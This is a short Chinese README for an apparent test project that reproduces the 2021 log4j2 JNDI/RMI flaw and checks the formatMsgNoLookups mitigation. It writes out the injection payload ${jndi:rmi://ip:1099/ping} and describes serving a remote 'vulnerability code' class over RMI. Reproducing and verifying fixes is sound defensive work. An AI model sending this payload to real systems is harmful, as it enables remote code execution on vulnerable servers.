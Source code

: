 # log4j2BugTest
## 背景描述
- 2021年12月9日，log4j2的一个核弹级漏洞响彻技术圈。

- https://www.oschina.net/news/172999 （ps：文中提及补丁已被相关安全团队验证仍存漏洞）

- 本次将使用java模拟log4j2日志打印的lookup调用rmi的漏洞以及验证一种解决此漏洞的方式（特定环境下执行）
## 执行环境
- idea
- jdk1.8.0_20
- 一个漏洞代码类文件，并结合Server类代码放在相应位置（本人放在nginx下并通过factoryLocation配置地址的形式读取）
## 执行流程

1. 启动Server服务
2. 启动SpringBoot应用服务
3. 使用postman发送一个请求参数为${jndi:rmi://ip:1099/ping} 的http请求
4. 验证通过
5. 给SpringBoot应用添加参数-Dlog4j2.formatMsgNoLookups=true 
6. 重启springBoot应用
7. 进行步骤3 可以看见远程漏洞代码不再执行
